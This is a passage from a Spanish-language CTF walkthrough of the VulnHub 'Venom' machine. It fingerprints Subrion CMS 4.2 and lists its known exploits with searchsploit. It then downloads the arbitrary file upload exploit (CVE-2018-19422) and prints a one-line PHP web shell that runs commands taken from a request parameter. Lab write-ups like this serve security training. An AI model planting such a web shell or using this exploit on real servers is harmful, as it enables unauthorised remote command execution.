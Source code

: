 De la información obtenida, tambien debemos agregar virtual hosting configurando el host `venom.box`, y con esto prbar acceder por http con el usuario dora, ademas, para obtener mas información utilizaremos `whatweb`.
```ruby
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/venom/content]
└─$ whatweb venom.box      
http://venom.box [200 OK] Apache[2.4.29], Bootstrap, Cookies[INTELLI_06c8042c3d], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[192.168.200.149], JQuery, MetaGenerator[Subrion CMS - Open Source Content Management System], Open-Graph-Protocol, PoweredBy[Subrion], Script, Title[Home :: Powered by Subrion 4.2], UncommonHeaders[x-powered-cms], X-UA-Compatible[IE=Edge]
```                                  
Una vez identificado el CMS, se puede buscar en searchsploit si existe alguna vulnerabilidad para `subrion 4.2`

```ruby
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/venom/content]
└─$ searchsploit subrion 4.2.1
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting                                                                                                   | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                                                                                                                    | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                                                                                                                 | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin)                                                                                          | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                                                                                                                  | php/webapps/45150.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
De los exploits encontrados procedemos a descargar el exploit que permite `Arbitrary File Upload`
```ruby
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/venom/exploits]
└─$ searchsploit -m php/webapps/49876.py 
  Exploit: Subrion CMS 4.2.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
    Codes: CVE-2018-19422
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (956)
Copied to: /home/s3cur1ty3c/CTF/vulnhub/venom/exploits/49876.py

└─$ mv 49876.py subrion_exploit.py
```
Del exploit descargado se encontro información que el CMS, interpreta archivos con extensión.phar, por lo que,debemos crear una web shell y subir en la ruta `http://venom.box/panel/uploads/`.
```ruby
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/venom/exploits]
└─$ cat pwned.phar        
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.phar
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
```